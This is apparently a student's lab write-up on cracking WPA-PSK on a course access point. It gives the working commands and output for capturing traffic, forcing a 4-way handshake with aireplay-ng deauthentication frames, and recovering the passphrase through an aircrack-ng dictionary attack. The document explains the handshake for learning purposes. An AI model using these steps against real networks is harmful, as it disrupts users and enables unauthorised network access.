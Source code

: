 # Question 2: Cracking WPA

## Terminology
* N6 = Node 6
* N15 = Node 15
* ST = Stepping Stone
* PC = local pc at home

## a) Getting the dump

Date of Capture: Tuesday, 10th January 2017, 19:50

### Setup

* N6: change monitor interface channel to CH1: `iw wlan1 set channel 1`
* N6: Scan For WPA Node: `iw wlan0 scan`

	Output: (trunc):
	
	```
	BSS 00:1b:b1:02:01:4e(on wlan0)
		TSF: 285225550977 usec (3d, 07:13:45)
		freq: 2412
		beacon interval: 100 TUs
		capability: ESS (0x0431)
		signal: -58.00 dBm
		last seen: 15760 ms ago
		Information elements from Probe Response frame:
		SSID: WirelessLab_WPA_Crack_Me
	```
	

* N6: check for monitor mode: `iw wlan1 info`
	Output:
	
	```
	Interface wlan1
	ifindex 6
	wdev 0x100000002
	addr a8:54:b2:71:d3:5d
	type monitor
	wiphy 1
	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
	txpower 19.00 dBm
	txpower 19.00 dBm
	```
	
	* in monitor mode: check!
	* on channel 1: check!


* PC: Start dump on remote N6 (node6) via ProxyJump on ST:

	`ssh node6 tcpdump -U -i wlan1 -w - | wireshark -k -i -`
	
	After capture save to file manually on PC.
	
We captured all traffic on Channel 1 to get an overview of the trace.
There were some EAPOL message exchanges but unfortunately only the first
two messages. In order to capture a full 4-Way-Handshake we provoked 
a deauthentification. To do so we looked again into the the trace to 
find already associated STA that we can deauth. In particular we were looking
for data packets and we found one with the MAC Address `00:1b:b1:02:01:39`.

* N6: Sending deauth frames:

	`aireplay-ng -0 1 -a 00:1b:b1:02:01:4e -c 00:1b:b1:02:01:39 wlan1`
	
	Output (trunc):
	
	```
	Waiting for beacon frame (BSSID: 00:1B:B1:02:01:4E) on channel 1
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 0|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 0|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 1|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 1|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 2|
	18:52:25  Sending 64 directed DeAuth. STMAC: [00:1B:B1:02:01:39] [ 3|
	``` 

	
	

### Analysing the Beacons

Screenshot of Wireshark showing an Beacon frame from the WPA AP:

![](q2/BeaconFrame.png)

There are three different types of communications requiring a cipher suite:

* Multicast Cipher Suite: AES (CCM) is offered here
* Unicast Cipher Suite: AES (CCM) is offered here
* Auth Key Management: PSK is offered here

### Analysing the Authentification Process

Screenshot of Wireshark showing the management frames used to authenticate and associate:

![](q2/ManagementFrames.png)

First an Authentification frame is sent from the STA to the AP.
If the AP accepts the request it send another Authentificaton frame 
back to the STA with a status code of "0".

The STA then sends an Association Request to the AP, which the AP replies
with an Association Response

### Analysing the 4-Way Handshake

Screenshot of Wireshark showing many 802.1X-2004 handshake messages:

![](q2/4-way-handshake.png)

In this trace we have a full 4-way handshake with other handshake fractals caused by the deauth burst. The handshake is transported over EAPOL-key frames.
More Information: 802.11i Standard

The security policies are obtained from the APs beacons or probes.

Initially both AP and STA have the same PMK (Pairwise Master Key)

* Message 1:

	The authentificator (AP) sends a random number known as ANONCE 
	to the client
	
	supplicant (STA) has now all information to compute the PTK 
	(Pairwise Transient Key) with a pseudo-random function (PRF)
	
* Message 2:

	The supplicant sends the SNONCE together with the MIC (Message Integrity Code),
	since it already has the PTK
	
	The authentificator can now compute the PTK and check its integrity with the MIC
	
* Message 3:

	If neccessary the authentificator generates a GTK (Group Transient Key) for 
	multicast frames and sends it encrypted with the PTK
	
* Message 4:

	The supplicant sends an acknowledgement frame to the authentificator that
	GTK is installed

This approach is immune against replay attacks because the session is encrypted
by the PTK, which itself is never communicated over the channel nor all information
that can compute the PTK.

## b) Cracking WPA PSK

Using aircrack-ng we have to provide a passwordlist. aircrack uses all the words
in that list and tries each one out to find the WPA Key. We know from the task that the WPA key is an english word in all lowercase letters. So we use a dictionary file found in the internet (`english3.txt`)

Source: [http://www.gwicks.net/textlists/english3.zip](http://www.gwicks.net/textlists/english3.zip)

PC: `aircrack-ng -w english3.txt -b 00:1B:B1:02:01:4E handshake.pcap`

* -w = argument is the wordlist
* -b = argument is bssid of the AP (Authentificator)
* handshake.pcap = the trace file which contains the handshake

Output: 

```
                   [00:01:05] 130412 keys tested (2068.59 k/s)


                           KEY FOUND! [ xylophone ]


      Master Key     : D8 88 C1 D4 A6 1B 2F 7F F0 CF E3 6A 22 39 A3 34
                       06 05 6F 8A 9D F1 3D 22 9E CC E6 5F FF 2B 94 07

      Transient Key  : E7 BC 72 BD 44 E0 1F 5F 71 88 A4 A4 E8 52 E5 EC
                       98 CD 35 BE 4E 54 68 FA 30 73 F8 4E AB 2C E7 2C
                       FC 15 D6 0F CF A1 E1 28 4B 47 E9 14 AC EB 1A 8F
                       9D DA 8A 0A 4A C8 A5 BD 27 F1 B6 85 BF 12 61 37

      EAPOL HMAC     : 9B A6 EE E7 3E 80 8D 73 86 FF 93 8E A9 81 A1 36
```


As we see here we found the key which is `xylophone`

It is important to capture the 4-way handshake to get all information to
calculate the PTK for a given dictionary entry in order to check it against
the MIC.

